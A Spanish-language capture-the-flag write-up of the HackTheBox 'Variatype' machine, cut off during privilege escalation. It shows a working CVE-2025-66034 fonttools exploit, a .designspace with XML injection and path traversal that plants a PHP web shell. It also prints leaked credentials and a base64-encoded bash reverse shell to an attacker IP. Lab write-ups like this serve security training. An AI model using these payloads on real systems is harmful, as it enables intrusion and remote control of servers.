









+++
title = "HackTheBox - Variatype"
draft = false
description = "Resolución de la máquina Variatype"
tags = ["HTB", "Linux", "Medium", "designspace", "fonttools", ".git", "Path Traversal", "CVE"]
summary = "OS: Linux | Dificultad: Medium | Conceptos: designspace, fonttools, .git, Path Traversal, CVE Público"
categories = ["Writeups"]
showToc = true
date = "2026-03-21T00:00:00"
showRelated = true
+++

* Dificultad: `medium`
* Tiempo aprox. `~8h`
* **Datos Iniciales**: `10.129.9.137`

### Nmap Scan

Tras hacer un escaneo de puertos, habiendo añadido `variatype.htb` previamente a `/etc/hosts`, se encuentra lo siguiente:
```bash {hl_lines=[2,6]}
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 e0:b2:eb:88:e3:6a:dd:4c:db:c1:38:65:46:b5:3a:1e (ECDSA)
|_  256 ee:d2:bb:81:4d:a2:8f:df:1c:50:bc:e1:0e:0a:d1:22 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: VariaType Labs \xE2\x80\x94 Variable Font Generator
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
# Nada en UDP Top 200
```

- `22/tcp (OpenSSH 9.2p1)`: Versión vulnerable a RegreSSHion, dificil de explotar así que no hay mucho que podamos hacer.
- `80/tcp (nginx 1.22.1)`: Se anuncia como un "Variable Font Generator"
  - El código en medio (`\xE2\x80\x94`) parece ser la codificación UTF-8 de `—` ("*em dash*"). Nada relevante.

## HTTP
### `variatype.htb`
Al entrar, vemos una página que promete lo siguiente:
> *Generate production-ready variable fonts from your .designspace and master font files using industry-standard tooling.*



La página permite subir archivos `.designspace` y `.ttf`/`.otf` para crear "fuentes variables". Tras una búsqueda para descubrir qué son estos archivos:

- Los archivos `.designspace` son archivos de código fuente en XML. Se usan para diseñar tipografías con múltiples variables (Thin, Italic, etc.). No tienen  dibujos de letras, solo info que le dice al compilador dónde encontrar archivos de dibujo (`.ufo`), cómo interpolarlos y qué ejes existen (anchura, inclinación, etc.).

- Los archivos `.ttf` (TrueType Font) y `.otf` (OpenType Font) son los archivos compilados finales, contienen los contornos de las letras, info del espaciado y metadatos. Son las que se instalan en el sistema directamente.


- Las **fuentes variables** son una evolución de las fijas que permiten que muchas variaciones de una sola fuente estén metidas en un solo archivo, en lugar de tener que tenerlas todas en archivos separados (p.ej, para thin, medium, bold, italic...).

### Vhosts -> `portal.variatype.htb`
En la pestaña **Services**, debajo del todo, vemos un botón **Email Us** que nos lleva a `mailto:studio@variabype.labs`. Puede ser otro vhost? Si probamos con `whatweb` vemos que también lo detecta:

```bash
$ whatweb http://variatype.htb/services -a 3 -v
WhatWeb report for http://variatype.htb/services
Status    : 200 OK
Title     : Services — VariaType Labs
IP        : 10.129.9.137
Country   : RESERVED, ZZ

Summary   : Email[studio@variabype.labs], HTML5, HTTPServer[nginx/1.22.1], nginx[1.22.1]

Detected Plugins:
[ Email ]
	String       : studio@variabype.labs
	String       : studio@variabype.labs
...
```

Así que probamos a añadirlo a `/etc/hosts`, y buscamos subdominios tanto para ese como para `variatype.htb`:

```bash
$ curl http://variabype.labs -v

...[SNIP]...
< HTTP/1.1 301 Moved Permanently
< Server: nginx/1.22.1
< Date: Sun, 15 Mar 2026 22:57:57 GMT
< Content-Type: text/html
< Content-Length: 169
< Connection: keep-alive
< Location: http://variatype.htb/
< 
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>
* Connection #0 to host variabype.labs:80 left intact
```
Vemos que con `variabype.labs` se nos redirige a `variatype.htb`, así que no nos ha servido de mucho.

Con el dominio original probamos a enumerar subdominios:
```bash
$ gobuster vhost --url http://variatype.htb -w /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt -ad 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://variatype.htb
[+] Method:                    GET
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt
[+] Timeout:                   10s
[+] Append Domain:             true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
portal.variatype.htb Status: 200 [Size: 2494]
```
Y tenemos `portal.variatype.htb`, lo añadimos a `/etc/hosts`. Al entrar encontramos una página de login:



No parece ser el panel de login de ningún CMS o similar, tampoco parece haber nada en el código fuente ni se muestra una versión. Lo único que encontramos es un directorio `files/` para el que no tenemos permisos, así que tenemos que volver atrás.

### Vuelta a `variatype.htb` -> CVE-2025-66034
Sabemos que el sistema de VariaType permite subir archivos  `.designspace`, `.ttf` y `.otf`, también sabemos que, por detrás, se usan librerías y herramientas como `fonttools`, `fontmake`, y `gftools`:



- `fonttools`: Biblioteca de Python que puede leer, manipular y escribir archivos `.ttf` y `.otf`. Permite desensamblar una fuente binaria en un formato legible, modificar sus datos internos y volver a compilarla. Se usa en prácticamente todo lo relacionado con fuentes en el ámbito open source.
- `fontmake`: Compilador de fuentes construido sobre `fonttools`. Toma archivos `.designspace` junto con los `.ufo` y los compila en archivos `.ttf` y `otf` o fuentes variables
- `gftools` es un conjunto de herramientas oficiales de Google Fonts. Permiten verificar calidad, generar archivos de prueba y demás. Dado que es más algo "auxiliar", podemos ignorarlo en cierta medida.

Si nos centramos en `fonttools` y `fontmake`, que sabemos que se usan, y sabemos que en este caso crean fuentes variables, podemos encontrar específicamente las funciones o módulos que utilizan. Y tras una búsqueda:

> *`fonttools` usa el módulo `varLib`, concretamente la función `build()` de `varLib`, para crear fuentes variables, tomando un `.designspace` y generando la fuente.*

Y, casualmente, si buscamos vulnerabilidades relevantes de `fonttools`: [*CVE-2025-66034*](https://github.com/advisories/GHSA-768j-98cg-p3fv).

Vemos que este CVE permite a un atacante conseguir RCE mediante un path traversal y una inyección XML, usando un `.designspace` malicioso.

La idea es que, al compilar con fonttools, es posible indicar dónde queremos que se dejen los archivos resultantes, pero, en sus versiones vulnerables, la librería no comprueba bien el directorio y eso la hace vulnerable a un path traversal. Por otro lado, aprovechando esto, también es posible manipular ciertos elementos del XML para que se escriban tal cual en un archivo final.

En el PoC aparecen 2 `.designspace`'s diferentes, cada uno mostrando un fallo (XML injection, Path traversal), pero la idea es unificar ambos en un solo archivo, p.ej:

```test.designspace
<?xml version='1.0' encoding='UTF-8'?>
<designspace format="5.0">
  <axes>
    <!-- XML injection occurs in labelname elements with CDATA sections -->
    <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
      <labelname xml:lang="en"><![CDATA[<?php system($_GET['cmd']); ?>]]]]><![CDATA[>]]></labelname>
    </axis>
  </axes>
  
  <sources>
    <source filename="source-light.ttf" name="Light">
      <location>
        <dimension name="Weight" xvalue="100"/>
      </location>
    </source>
    <source filename="source-regular.ttf" name="Regular">
      <location>
        <dimension name="Weight" xvalue="400"/>
      </location>
    </source>
  </sources>
  
  <!-- Filename can be arbitrarily set to any path on the filesystem -->
  <variable-fonts>
    <variable-font name="MaliciousFont" filename="../../../../../../../var/www/html/shell.php">
      <axis-subsets>
        <axis-subset name="Weight"/>
      </axis-subsets>
    </variable-font>
  </variable-fonts>
</designspace>
```

Además, para que funcione, necesitamos los archivos `source-light.ttf` y `source-regular.ttf` que aparecen en el `.designspace` (porque antes de ejecutar nuestro payload fonttools los procesa para crear el archivo final), pero podemos crearlos con el script dado en el PoC.

Con todo esto, subimos los archivos, pero al ejecutarlo:



#### Buscando un directorio útil

Como no sabemos si verdaderamente se está usando `/var/www/html` u otro directorio, y no podemos probar con todos los directorios posibles por defecto (y custom) que el webserver podría servir, lo que podemos hacer es subir solo unas pocas rutas relativas, sin intentar llegar hasta la raíz (`/`) para luego bajar. En lugar de:
```xml
<variable-font name="MaliciousFont" filename="../../../../../../../var/www/html/shell.php">
```
Usamos:
```xml
<variable-font name="MaliciousFont" filename="../shell.php">
```

Ahora si probamos a mandarlo:



El problema es que si probamos a solicitar `shell.php` en cualquiera de estos sitios:
```txt
http://variatype.htb/shell.php
http://variatype.htb/tools/shell.php
http://variatype.htb/tools/variable-font-generator/shell.php
http://portal.variatype.htb/files/shell.php
http://portal.variatype.htb/shell.php
```

Todos devuelven `404 NOT FOUND`, así que todavía no sabemos dónde se está guardando el archivo. Podemos probar a añadir otro `../` más, pero el resultado es el mismo. Si añadimos otro más, es decir:
```xml
<variable-font name="MaliciousFont" filename="../../../shell.php">
```
Ahora se nos devuelve `Font generation failed during processing.`, el mismo error de antes, así que probablemente hayamos salido a un directorio en el que ya no tenemos permisos de escritura, por lo que `../../` es el directorio más alto en el que tenemos permisos. Con esta info que vamos sacando podemos ir deduciendo dónde se están sirviendo los archivos.

Si probamos con `filename="../../../../../../../../../../../tmp/shell.php` sí funciona, así que tenemos permisos en /tmp. Esto significa que podemos saber nuestra distancia relativa a `/` quitando `/..`'s.
- `filename="../../../../tmp/shell.php` funciona.
-`filename="../../../tmp/shell.php` funciona.
-`filename="../../tmp/shell.php` funciona.
-`filename="../tmp/shell.php` funciona.
-`filename="./tmp/shell.php` funciona.

Según esta lógica, el servidor compila y procesa nuestras fuentes desde `/`, lo que tiene 0 sentido, así que podemos deducir otra cosa que explica mejor la situación, y es que tenemos permisos de escritura en los directorios, y cuando ponemos pocos `../`'s lo que sucede es que el servidor crea una carpeta `tmp` dentro de la ruta.

Como tenemos permisos para la ruta absoluta `/tmp`, necesitamos algo para lo que específicamente **no tengamos permisos**, como p.ej `/bin`. Si probamos con `filename="/bin/shell.php` veremos que **no funciona**, pero si lo hacemos con ``filename="../../bin/shell.php`` **sí funciona**, porque se crea el directorio. La idea es ver cuándo llegamos a `/`, para que se intente crear el `/bin/shell.php`, se nos deniegue el permiso, y entonces sepamos a cuánta distancia estamos de `/`.

Si probamos con `filename="../../bin/shell.php` funciona, pero si probamos con `filename="../../../bin/shell.php` **no funciona**, así que ya sabemos algo más:

- La distancia relativa hasta el directorio raíz (`/`) es de 3.

Volviendo a pensar desde cero, si planteamos un directorio a 3 niveles de profundidad, contando con que nginx diferencia entre `variatype.htb` y `portal.variatype.htb`, posiblemente estemos ubicados en `/var/www/variatype.htb` o `/var/www/portal.variatype.htb`, el problema es que no tenemos permisos de escritura para ninguno de los dos, así que posiblemente el directorio con los elementos que realmente se están sirviendo está por debajo de estos.

####  Encontrando `.git`
> *Pasado un rato largo, pruebo a enumerar de nuevo ambos subdominios por si me había dejado algo, encuentro lo siguiente:*

```bash
$ sudo nmap -sT -Pn -n --disable-arp-ping -p80 portal.variatype.htb -sVC
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-15 21:45 -0400
Nmap scan report for portal.variatype.htb (10.129.9.137)
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: VariaType \xE2\x80\x94 Internal Validation Portal
| http-git: 
|   10.129.9.137:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: security: remove hardcoded credentials
```

Y tenemos lo que necesitábamos. Aunque al solicitarlo no parece que tengamos permisos:
```bash
$ curl -s http://portal.variatype.htb/.git/      
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>
```

Al solicitar a algo que sepamos que existe:
```bash
$ curl -s http://portal.variatype.htb/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
	name = Dev Team
	email = dev@variatype.htb
```

Así que usamos una herramienta como `git-dumper`:
```bash
$ git-dumper http://portal.variatype.htb/.git/ portalrepo
[-] Testing http://portal.variatype.htb/.git/HEAD [200]
[-] Testing http://portal.variatype.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://portal.variatype.htb/.gitignore [404]
...[SNIP]...
```

Entramos al repo y listamos commits, aunque de primeras en el escaneo de nmap habíamos visto que el último commit era `remove hardcoded credentials`, pero de todas formas encontramos lo siguiente:
```bash
$ git log --oneline --graph --all --decorate
* 753b5f5 (HEAD -> master) fix: add gitbot user for automated validation pipeline
* 5030e79 feat: initial portal implementation

$ git show 753b5f5
commit 753b5f5957f2020480a19bf29a0ebc80267a4a3d (HEAD -> master)
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:59:33 2025 -0500

    fix: add gitbot user for automated validation pipeline

diff --git a/auth.php b/auth.php
index 615e621..b328305 100644
--- a/auth.php
+++ b/auth.php
@@ -1,3 +1,5 @@
 <?php
 session_start();
-$USERS = [];
+$USERS = [
+    'gitbot' => 'G1tB0t_Acc3ss_2025!'
+];
```

Y tenemos unas credenciales `gitbot`:`G1tB0t_Acc3ss_2025!`, con las que accedemos al panel, y desde el que podemos ver todos los archivos `.ttf` creados anteriormente por nuestros intentos de explotar la vulnerabilidad:



Al lado aparecen unos botones de `Download` y `View`. Dado que este panel (como pone también) está intencionado para ser de uso interno únicamente, es posible que haya alguna vulnerabilidad de path traversal. Tras probar un rato:



Así que ahora podemos buscar la configuración de nginx para ver dónde se están guardando nuestros archivos realmente. Según Internet, esta se guarda en `/etc/nginx/sites-available/<nombre_Dominio>`:



Y ahí lo tenemos:
```http
root /var/www/portal.variatype.htb/public;
```

Nuestro payload debe ir a `/var/www/portal.variatype.htb/public`, así que ahí lo mandamos. Modificamos el `.designspace`:
```xml
<variable-font name="MaliciousFont" filename="/var/www/portal.variatype.htb/public/shell.php">
```
Lo mandamos y miramos el directorio de nuevo:



Y tenemos el shell accesible. Ahora mandamos un reverse shell como el siguiente:
```bash
echo L2Jpbi9iYXNoIC1jIC9iaW4vYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yMTAvNDQ0NCAwPiYxCg== | base64 -d | bash
# Encodeado a URL
```

Desde BurpSuite:
```http
GET /files/shell.php?cmd=echo+L2Jpbi9iYXNoIC1jIC9iaW4vYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNS4yMTAvNDQ0NCAwPiYxCg%3d%3d+|+base64+-d+|+bash HTTP/1.1
Host: portal.variatype.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
...[SNIP]...
```

Y en el handler en escucha:
```bash
www-data@variatype:~/portal.variatype.htb/public/files$ whoami
www-data
```

## Privesc: `www-data` -> `steve`
Listamos qué usuarios interactivos hay:
```bash
www-data@variatype:~/portal.variatype.htb/public/files$ cat /etc/passwd | grep -v nologin | grep -v false
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
steve:x:1000:1000:steve,,,:/home/steve:/bin/bash
```
Así que parece que nuestro siguiente objetivo va a ser `steve`.

Si buscamos archivos que pertenezcan a `steve`:
```bash
www-data@variatype:/$ find / -user steve 2>/dev/null
/home/steve
/opt/process_client_submissions.bak


www-data@variatype:/$ ls -al /opt
drwxr-xr-x  3 root      root      4096 Mar  9 08:29 font-tools
-rwxr-xr--  1 steve     steve     2018 Feb 26 07:50 process_client_submissions.bak
drwxr-xr-x  4 variatype variatype 4096 Mar  9 08:29 variatype
```

En `/opt` parece destacar `process_client_submissions.bak`:
```bash
#!/bin/bash
#
# Variatype Font Processing Pipeline
# Author: Steve Rodriguez <steve@variatype.htb>
# Only accepts filenames with letters, digits, dots, hyphens, and underscores.
#

set -euo pipefail

UPLOAD_DIR="/var/www/portal.variatype.htb/public/files"
PROCESSED_DIR="/home/steve/processed_fonts"
QUARANTINE_DIR="/home/steve/quarantine"
LOG_FILE="/home/steve/logs/font_pipeline.log"

mkdir -p "$PROCESSED_DIR" "$QUARANTINE_DIR" "$(dirname "$LOG_FILE")"

log() {
    echo "[$(date --iso-8601=seconds)] $*" >> "$LOG_FILE"
}

cd "$UPLOAD_DIR" || { log "ERROR: Failed to enter upload directory"; exit 1; }

shopt -s nullglob

EXTENSIONS=(
    "*.ttf" "*.otf" "*.woff" "*.woff2"
    "*.zip" "*.tar" "*.tar.gz"
    "*.sfd"
)

SAFE_NAME_REGEX='^[a-zA-Z0-9._-]+$'

found_any=0
for ext in "${EXTENSIONS[@]}"; do
    for file in $ext; do
        found_any=1
        [[ -f "$file" ]] || continue
        [[ -s "$file" ]] || { log "SKIP (empty): $file"; continue; }

        # Enforce strict naming policy
        if [[ ! "$file" =~ $SAFE_NAME_REGEX ]]; then
            log "QUARANTINE: Filename contains invalid characters: $file"
            mv "$file" "$QUARANTINE_DIR/" 2>/dev/null || true
            continue
        fi

        log "Processing submission: $file"

        if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
import fontforge
import sys
try:
    font = fontforge.open('$file')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
